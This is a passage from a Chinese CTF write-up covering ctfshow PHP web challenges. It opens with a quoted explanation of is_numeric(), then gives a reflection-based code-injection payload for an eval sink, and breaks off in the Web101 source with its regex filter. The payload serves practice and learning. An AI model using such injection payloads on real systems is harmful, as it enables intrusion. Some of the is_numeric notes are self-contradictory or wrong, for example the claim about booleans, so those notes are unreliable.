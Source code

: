>     echo "var3 is numeric";
> } else {
>     echo "var3 is not numeric";
> }
> 
> if (is_numeric($var4)) {
>     echo "var4 is numeric";
> } else {
>     echo "var4 is not numeric";
> }
> ```
>
> #### 输出
>
> ```text
> var1 is numeric
> var2 is numeric
> var3 is numeric
> var4 is not numeric
> ```
>
> #### 注意事项
>
> 1. **字符串中的数字**：`is_numeric()` 会检查字符串是否为数字字符串，即使字符串中包含非数字字符，只要这些非数字字符不影响字符串转换为数字，函数也会返回 `true`。例如，`"123abc"` 和 `"123.45.6"` 都会返回 `false`，因为它们不能被转换为有效的数字。
> 2. **空字符串**：空字符串（`""`）会返回 `false`。
> 3. **科学记数法**：`is_numeric()` 可以正确识别科学记数法表示的数字字符串，例如 `"1e10"`。
> 4. **布尔值**：布尔值 `true` 和 `false` 分别被视为 `1` 和 `0`，因此 `is_numeric(true)` 和 `is_numeric(false)` 都会返回 `true`。
>
> `is_numeric()` 函数在处理用户输入和数据验证时非常有用，可以帮助你确保变量是数值类型，从而避免在后续的数值运算中出现错误。

## 方法二：类反射

payload`/?v1=1&v2=echo+new+ReflectionClass&v3=;`

## Web101

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-22 00:26:48
# @link: https://ctfer.com

*/

highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
```